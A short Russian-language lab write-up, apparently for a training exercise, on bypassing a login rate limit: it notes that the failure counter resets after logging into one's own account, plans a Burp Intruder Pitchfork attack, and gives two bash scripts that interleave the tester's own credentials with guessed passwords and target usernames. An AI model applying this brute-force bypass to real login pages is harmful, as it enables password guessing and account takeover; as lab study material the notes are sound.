 

# Разведка

- 3 попытки входа и блокировка на 1 минуту
- `X-Forwarded-For` не работает
- При входе в свою учётку счётчик ошибок сбрасывается если не более 3 попыток

# Атака 

- Формат атаки 1 данные наш логин и пароль потом 2 атаки на пользователя с подбором пароля следом снова наш логи и пароль 

- Формат атаки подойдёт Pitchfork 

- Создать список или использовать макросы или расширения Turbo Intruder.

Для списка кодов
```
#!/bin/bash

input_file="/файлкодов.txt"
output_file="/файлкодов2.txt"

# Очищаем выходной файл перед записью
> "$output_file"

# Читаем файл построчно
while read -r word; do
    # Записываем слово в выходной файл
    echo "$word" >> "$output_file"

    # Увеличиваем счетчик
    ((count++))

    # Каждые два слова добавляем "peter"
    if (( count % 2 == 0 )); then
        echo "peter" >> "$output_file"
    fi
done < "$input_file"

```
Для списка имён
```
#!/bin/bash

# Создаем файл для записи
output_file="/home/zer/Documents/код/words.txt"

# Очищаем файл, если он уже существует
> "$output_file"

# Количество слов
count=151

# Генерируем слова
# Генерируем слова
for ((i=0; i<count; i++)); do
    if (( i % 3 == 0 )); then
        echo "wiener" >> "$output_file"
    else
        echo "carlos" >> "$output_file"
    fi
done

echo "Список из $count слов создан в файле $output_file."
```
